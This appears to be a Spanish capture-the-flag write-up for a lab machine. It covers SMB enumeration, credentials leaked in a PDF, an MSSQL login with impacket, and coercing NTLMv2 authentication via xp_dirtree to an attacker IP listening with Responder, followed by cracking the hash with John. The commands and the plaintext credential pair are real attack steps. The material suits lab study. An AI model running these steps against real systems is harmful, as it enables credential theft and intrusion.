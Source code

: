- Vemos que hay un directorio `"Public"`, accedemos a él y listamos su contenido:

```bash
$smbclient -N //10.129.165.120/Public
```

```bash
smb: \> dir
  .                                   D        0  Sat Nov 19 06:51:25 2022
  ..                                  D        0  Sat Nov 19 06:51:25 2022
  SQL Server Procedures.pdf           A    49551  Fri Nov 18 08:39:43 2022
```

- Descargamos el archivo `PDF` que encontramos y lo abrimos:

```bash
smb: \> get "SQL Server Procedures.pdf"
```

- Dentro del PDF encontramos instrucciones para gestionar una base de datos con la herramienta `"SQL Server Management Studio"`, y casi al final encontramos filtradas unas credenciales, la guardamos en un archivo "credentials.txt".


# Obtención de hash NTLMv2 usando MSSQLCLIENT:

- Accedemos a la herramienta mencionada `(mssqlclient de impacket)`, usando las credenciales encontradas:

```bash
$impacket-mssqlclient sequel.htb/PublicUser:GuestUserCantWrite1@10.129.165.120
```


- Dentro de `mssql`, podremos intentar acceder a recursos compartidos por `SMB`, pero en este caso, apuntaremos a uno inexistente inyectando la dirección IP de nuestra máquina atacante mientras estamos en escucha con la herramienta `"responder"`:

	- Nos ponemos en escucha:

```bash
	$responder -I tun0 -wPv
```

- Ejecutamos el comando `"xp_dirtree"` en mssqlclient para hacer esta búsqueda de archivos compartidos por SMB:

```bash
SQL> xp_dirtree '\\10.10.15.129\danteeeeee'
```

- Ahora, como se intentó entablar una conexión SMB entre la máquina víctima y nuestra máquina atacante, dentro del `responder` podremos observar como nos llegó un hash `NTLMv2`, el cual lo crackearemos con `John`:

```bash
$john -w:/usr/share/SecLists/Passwords/Leaked-Databases/rockyou.txt hash
```

- Obtenemos la credencial para el usuario `"sql_svc"`.

